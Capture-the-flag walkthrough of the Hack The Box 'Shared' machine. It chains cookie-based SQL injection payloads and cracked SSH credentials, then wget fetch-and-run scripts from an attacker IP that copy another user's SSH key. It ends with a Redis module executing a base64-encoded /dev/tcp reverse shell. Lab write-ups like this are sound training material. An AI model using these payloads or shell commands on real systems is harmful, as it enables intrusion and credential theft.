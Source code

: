 Hack the box:Shared

***Enumeration***

Nmap scan
```
22/tcp  open  ssh      OpenSSH 8.4p1 Debian 5+deb11u1 (protocol 2.0)
80/tcp  open  http     nginx 1.18.0
443/tcp open  ssl/http nginx 1.18
```
Domain && subdomain

**http://shared.htb**

**http://checkout.shared.htb**

vuln in cookie

cookie **"custom_cart=%7B%2253GG2EF8%22%3A%223%22%7D"**

decode cookie value **"custom_cart={"53GG2EF8":"3"}"**

***FootHold***

union based blind sql injection

referal **https://infosecwriteups.com/healing-blind-injections-df30b9e0e06f**


payload
```
{"53GG2EF8'AND 1=2 UNION SELECT 1,(user()),3-- -":"3"}
```
database username **checkout@localhost**

Database Name Enumeration
```
{"53GG2EF8'AND 1=2 UNION SELECT 1,(select group_concat(SCHEMA_NAME) from INFORMATION_SCHEMA.SCHEMATA),3-- -":"3"}
```
**information_schema,checkout**

Tables from checkout;
```
{"53GG2EF8'AND 1=2 UNION SELECT 1,(select group_concat(TABLE_NAME) from INFORMATION_SCHEMA.TABLES where TABLE_SCHEMA = 'checkout'),3-- -":"3"}
```
**user,product**

Columns from user;
```
{"53GG2EF8'AND 1=2 UNION SELECT 1,(select group_concat(TABLE_NAME,COLUMN_NAME) from INFORMATION_SCHEMA.COlUMNS where TABLE_SCHEMA = 'checkout'),3-- -":"3"}
```
**user.id,user.username,user.password,product.id,product.code,prodcut.price**

username and password from user
```
{"53GG2EF8'AND 1=2 UNION SELECT 1,(select group_concat(username) from checkout.user),3-- -":"3"}
```
```
{"53GG2EF8'AND 1=2 UNION SELECT 1,(select group_concat(password) from checkout.user),3-- -":"3"}
```
**james_mason:fc895d4eddc2fc12f995e18c865cf273**

crack the hash using hashcat

ssh cred => james_mason:Soleil101

connect to SSH as james_mason

***Low privilege user james_mason to dan_smith***

their is a cronjob running to use ipython 

recent cve of ipython **https://github.com/advisories/GHSA-pq7m-3gw7-gq5x**

for exploiting the ipython we create a shell script to automate some purpose

os.py
```python 
import os

os.system("cat /home/dan_smith/.ssh/id_rsa > /tmp/id_rsa")

```

script.sh
```bash
#!/usr/bin/bash

mkdir -p /opt/scripts_review/profile_default
chmod 777 /opt/scripts_review/profile_default
mkdir -p /opt/scripts_review/profile_default/startup
chmod 777 /opt/scripts_review/profile_default/startup
wget http://10.10.16.19/os.py -O /opt/scripts_review/profile_default/startup/os.py
chmod 777 /opt/scripts_review/profile_default/startup/os.py
```

for execute the script
```
wget http://10.10.16.19/script.sh && chmod +x script.sh && bash script.sh
```

***Privilege escalation***

The server has running redis as root but we cannot connect the server without creds so we need to
find the cred to access the server

let's check the user's and groups related files
```
find / -group sysadmin 2>/dev/null
```
we found a intersting excutable file in /usr/local/bin

It is a excutable binary to connect the redis server as localy and automaticly login using the auth creds and run a simple redis command info and get the result to us

from their we know in the excutable has the auth cred. copy the binary to our local machine
start anlayzing it
```
scp -i file.key dan_smith@ip:/usr/local/bin/redis_connector_dev redis_connector_dev
```
run the binary on localy and setup a netcat listion on port 6379
```
nc -lv localhost 9379
```
after runing the binary we get the connection on netcat and got the creds

redis => **"auth:F2WHqJUz2WEz=Gqq"**

after gain access the redis server using the auth creds we create a custom module for runing the os commands
referal https://book.hacktricks.xyz/network-services-pentesting/6379-pentesting-redis

**Exploit**
```
auth F2WHqJUz2WEz=Gqq

MODULE  LOAD /dev/shm/redis/module.so

module list

system.exec "cat /root/root"

system.exec "echo -n 'YmFzaCAtaSAgPiYgIC9kZXYvdGNwLzEwLjEwLjE2LjEwLzkwMDEgICAwPiYxIA==' | base64 -d |bash"
```